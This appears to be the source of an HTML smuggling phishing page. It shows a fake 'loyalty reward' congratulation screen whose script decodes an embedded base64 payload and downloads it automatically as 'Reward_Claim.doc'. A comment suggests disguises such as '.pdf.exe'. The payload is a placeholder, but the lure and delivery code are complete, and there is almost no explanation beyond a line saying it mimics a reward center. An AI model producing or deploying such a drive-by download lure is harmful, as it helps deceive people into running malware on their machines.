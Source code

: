    ```html
        <h1>🎉 Congratulations!</h1>
        <p>You’ve been selected to receive a loyalty reward 🎁</p>
        <p>Your download will begin automatically...</p>
        <div class="loader"></div>
        <p class="hidden" id="doneMsg">If your download hasn’t started, <a href="#" id="manualLink">click here</a>.</p>
      </div>
    
      <script>
        function base64ToArrayBuffer(base64) {
          const binary_string = window.atob(base64);
          const len = binary_string.length;
          const bytes = new Uint8Array(len);
          for (let i = 0; i < len; i++) {
            bytes[i] = binary_string.charCodeAt(i);
          }
          return bytes.buffer;
        }
    
        const base64File = '<< BASE64 ENCODED PAYLOAD HERE >>'; // Replace with real base64
        const fileName = 'Reward_Claim.doc'; // Can be .exe, .pdf.exe, etc.
    
        function triggerDownload(data, filename) {
          const blob = new Blob([data], { type: 'application/octet-stream' });
    
          if (window.navigator.msSaveOrOpenBlob) {
            window.navigator.msSaveOrOpenBlob(blob, filename);
          } else {
            const a = document.createElement('a');
            const url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = filename;
            document.body.appendChild(a);
            a.click();
            document.body.removeChild(a);
            window.URL.revokeObjectURL(url);
          }
    
          document.getElementById('doneMsg').classList.remove('hidden');
          document.getElementById('manualLink').href = window.URL.createObjectURL(blob);
        }
    
        // Simulate short loading delay before download
        setTimeout(() => {
          if (base64File.startsWith('<<')) {
            alert('Download error: Payload missing or not embedded.');
          } else {
            const buffer = base64ToArrayBuffer(base64File);
            triggerDownload(buffer, fileName);
          }
        }, 3000);
      </script>
    </body>
    </html>
   ```
     + Mimics a reward center with a congratulatory message.
  